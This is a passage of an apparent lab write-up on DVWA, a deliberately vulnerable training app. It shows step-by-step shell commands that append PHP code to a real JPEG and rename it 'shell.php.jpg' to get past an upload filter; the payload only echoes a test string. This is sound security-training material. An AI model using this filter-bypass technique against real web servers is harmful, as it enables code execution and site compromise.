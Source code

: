     ![PHP file upload failed](./screenshots/file-upload-attack/upload-php-file-fail.jpg)


**Step 3**: Trick DVWA with a Valid Image + PHP Payload

- Tried combining an actual image with PHP code.

    1. E.g. copy a real image in Kali
        ```bash
        cp /usr/share/icons/hicolor/16x16/apps/kali-docs.jpg harmless.jpg
        ```

    2. Append PHP code to the image
        ```bash
        echo "<?php echo 'Executed!'; ?>" >> harmless.jpg
        ```
        - This creates a valid image file that also has PHP code at the end.

    3. Rename it to `.php.jpg` (bypass filter)
        ```bash
        mv harmless.jpg shell.php.jpg
        ```
        - Now we have a file:
            ```
            shell.php.jpg
            ```
            - It starts with valid image data
            - It ends with PHP code
            - It has `.jpg` extension
